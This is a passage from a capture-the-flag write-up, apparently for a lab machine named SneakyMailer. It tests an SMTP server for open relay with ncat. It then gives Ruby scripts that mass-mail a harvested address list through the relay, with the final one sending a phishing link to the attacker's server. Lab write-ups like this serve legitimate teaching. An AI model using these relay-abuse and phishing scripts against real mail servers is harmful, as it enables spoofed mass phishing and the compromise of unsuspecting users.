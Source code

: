 I seems the SMTP server is vulnerable to open relay:

> An SMTP server that works as an open relay, is a email server that does not verify if the user is authorised to send email from the specified email address. Therefore, users would be able to send email originating from any third-party email address that they want.

```
$ ncat sneakycorp.htb 25
MA220 debian ESMTP Postfix (Debian/GNU)
MAIL from:noraj@sneakymailer.htb
250 2.1.0 Ok
RCPT to:tigernixon@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
hello open relay
.
250 2.0.0 Ok: queued as 4773E25011
```

I wrote a script to abuse of SMTP open relay and send a test email to all users:

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")

@s = TCPSocket.new('sneakycorp.htb', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "MAIL from:noraj@sneakymailer.htb \n\r", 0
  @s.send "RCPT to:#{user} \n\r", 0
  @s.send "DATA \n\r", 0
  @s.send "test \r\n.\r\n", 0
  resp = @s.recv(1024).chomp
  puts resp
end
@s.close

puts "[*] Result:-"
puts "[+] Banner: " + @banner
```

Let's change the email body content, replacing test by phishing content
like a link to our web server and hope one of the users will click it.

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")

@s = TCPSocket.new('sneakycorp.htb', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "MAIL from:noraj@sneakymailer.htb \n\r", 0
  @s.send "RCPT to:#{user} \n\r", 0
  @s.send "DATA \n\r", 0
  @s.send "http://10.10.14.142:8080 \r\n.\r\n", 0
  resp = @s.recv(1024).chomp
  puts resp
end
@s.close

```